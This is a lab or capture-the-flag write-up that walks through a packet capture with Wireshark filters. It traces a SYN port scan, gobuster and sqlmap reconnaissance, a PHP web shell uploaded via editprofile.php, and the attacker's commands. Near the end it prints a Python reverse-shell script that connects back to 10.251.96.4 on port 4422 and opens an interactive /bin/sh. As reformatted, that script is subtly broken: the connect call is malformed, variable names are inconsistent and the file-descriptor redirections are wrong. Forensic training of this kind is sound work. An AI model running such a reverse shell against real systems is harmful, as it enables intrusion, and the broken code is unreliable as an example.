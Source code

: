 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## What is the IP responsible for conducting the port scan activity?
- Port scanning is done for TCP ports.
- In order to see the port scan activity, we have to to go `Statistics > Conversations > TCP`.

![1](https://github.com/Knign/Write-ups/assets/110326359/b2b6e66d-cff1-4e92-bd5b-e6cecd25319d)

## Answer
```
10.251.96.4
```

&nbsp;

## What is the port range scanned by the suspicious host?
- Let's sort `Port B` in an ascending order.

![2](https://github.com/Knign/Write-ups/assets/110326359/46478686-7f2b-431d-954d-583265b08bfb)

- We can see that the last port scanned is 1024.
## Answer
```
1-1024
```

&nbsp;

## What is the type of port scan conducted?
- We can filter the packets using the following filter:
```
ip.src == 10.251.96.4
```

![3](https://github.com/Knign/Write-ups/assets/110326359/77cde470-7352-4a42-b6bd-4fd59c6353a5)

- The packets that we filtered are TCP packets with the SYN flag set.
## Answer
```
TCP SYN
```

&nbsp;

## Two more tools were used to perform reconnaissance against open ports, what were they?
- The application/tool and its version can be identified using the `User-Agent` header.
- Using the following filter we can filter out packets sent to the suspicious agent and the User-Agent header.
```
ip.dst == 10.251.96.5 && http.user_agent
```

![4](https://github.com/Knign/Write-ups/assets/110326359/bb134ae8-a7ae-4ef3-be43-4309552cdf5b)

- As we can see the first tool is GoBuster which is enumerating all the directories.
- In order to find the second tool, we have to scroll down until we find an encoded URI.

![5](https://github.com/Knign/Write-ups/assets/110326359/0c14f5fc-fa7f-49d4-97a0-53698f5f2e05)

- The second tool is SQLmap.
## Answer
```
gobuster 3.0.1, sqlmap 1.4.7
```

&nbsp;

## What is the name of the php file through which the attacker uploaded a web shell?
- The HTTP POST method is used to upload data to a server. We can filter for these packets using the following filter:
```
http.request.method == POST
```
- Scrolling down, we can see a POST request made for a `upload.php` file.

![6](https://github.com/Knign/Write-ups/assets/110326359/84ad7616-2e61-4fc3-a0a6-7c82ebb75bdb)

- The `Referer` header in the packet tells us the address from which a resource has been requested.
## Answer
```
editprofile.php
```

&nbsp;

## What is the name of the web shell that the attacker uploaded?
- Let's follow the TCP stream for the same packet by going to `Follow > TCP Stream`.

![7](https://github.com/Knign/Write-ups/assets/110326359/a8682218-3dfe-4c5f-bd32-4e3c6149b2f7)

- As we can see the `Content-Disposition` header is set to `form-data` with the `dbfunctions.php` as the filename.
## Answer
```
dbfunctions.php
```

&nbsp;

## What is the parameter used in the web shell for executing commands?
- In the same TCP Stream we can see an if statement that takes `cmd` as the parameter. 

![7](https://github.com/Knign/Write-ups/assets/110326359/4cf973ca-bafa-477a-ac40-6da3eb105bbd)

## Answer
```
cmd
```

&nbsp;

## What is the first command executed by the attacker?
- The commands to the uploaded file are sent using GET requests. We can use the following filter to separate out these packets.
```
http.request.method == GET
```

![8](https://github.com/Knign/Write-ups/assets/110326359/b15615e2-303a-4024-b751-af31201f3314)

- There were three commands executed: `id`, `python code` and `whoami`.
## Answer
```
id
```

&nbsp;

## What is the type of shell connection the attacker obtains through command execution?
- We need to open the packet with the python script.

![9](https://github.com/Knign/Write-ups/assets/110326359/653d5d08-6458-477f-94c7-6028d5538d95)

- Once formatted, the script looks as follows:
```python
import socket, subprocess, os;
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect("10.251.96.4", 4422);
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
os.dup2(S.fileno(),0)
p = subprocess.call(["/bin/sh", "-i"])
```
- It creates a socket object `s` and connects to the specified IP address ("10.251.96.4") and port (4422).
- It then uses `subprocess.call` to execute the `/bin/sh` shell with the "-i" flag, which opens an interactive shell session, effectively allowing the user to control the remote server.
- This is inline with the characteristics of a reverse shell.
## Answer
```
Reverse shell
```

&nbsp;

## What is the port he uses for the shell connection?
- We saw that the reverse shell connects to port 4422.
## Answer
```
4422
```
